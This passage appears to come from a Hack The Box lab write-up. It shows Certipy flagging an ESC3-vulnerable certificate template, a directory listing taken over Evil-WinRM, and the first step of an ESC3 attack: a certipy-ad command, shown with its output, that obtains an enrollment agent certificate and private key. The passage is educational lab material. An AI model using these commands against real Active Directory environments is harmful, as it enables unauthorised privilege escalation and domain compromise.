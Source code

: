 ```bash
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFICATE.HTB\Domain CRA Managers
    [!] Vulnerabilities
      ESC3                              : Template has Certificate Request Agent EKU set.
```
{: .nolineno }

I got 3 Extra users including Administrator : 

```powershell
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       12/30/2024   8:33 PM                Administrator
d-----       11/23/2024   6:59 PM                akeder.kh
d-----        11/4/2024  12:55 AM                Lion.SK
d-r---        11/3/2024   1:05 AM                Public
d-----        11/3/2024   7:26 PM                Ryan.K
d-----       11/26/2024   4:12 PM                Sara.B
d-----       12/29/2024   5:30 PM                xamppuser
```
{: .nolineno }

### ESC-3 Certificate Exploitation

Let's exploit **ESC-3** from here [PATH](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc3-enrollment-agent-certificate-template) 🔻

I tried to impersonate as all 3 user's and within these three users. I got success from <b><span style="color:rgb(219, 0, 0)">ryan.k</span></b>
 user.

**Step 1: Obtain an Enrollment Agent certificate.**

```bash
└─$ certipy-ad req \
    -u 'Lion.SK@certificate.htb' -p '!*******x' \
    -dc-ip '10.10.11.71' -target 'DC01.certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 21
[*] Successfully requested certificate
[*] Got certificate with UPN 'Lion.SK@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1115'
[*] Saving certificate and private key to 'lion.sk.pfx'
[*] Wrote certificate and private key to 'lion.sk.pfx'

```
{: .nolineno }
